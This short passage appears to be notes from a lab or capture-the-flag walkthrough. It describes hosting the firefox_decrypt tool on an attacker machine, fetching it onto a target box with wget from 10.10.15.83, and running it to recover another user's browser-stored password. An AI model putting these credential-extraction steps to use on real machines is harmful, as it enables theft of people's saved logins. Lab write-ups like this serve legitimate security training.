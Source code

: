     * cat _.bash-history_

    <figure><img src=".gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

    * we have to upload the firefox\_decrypt tool into kira box
      * after running it, we should obtain Willy PW from browser history...
* Uploading firefox\_decrypt tool
  * git clone firefox%decrypt (URL from github repo)
  * python3 -m http.server
  * wget [http://10.10.15.83:8000/firefox\_decrypt.py](http://10.10.15.83:8000/firefox\_decrypt.py)
  *   python 3.9 firefox\_decrypt.py

      * option 2
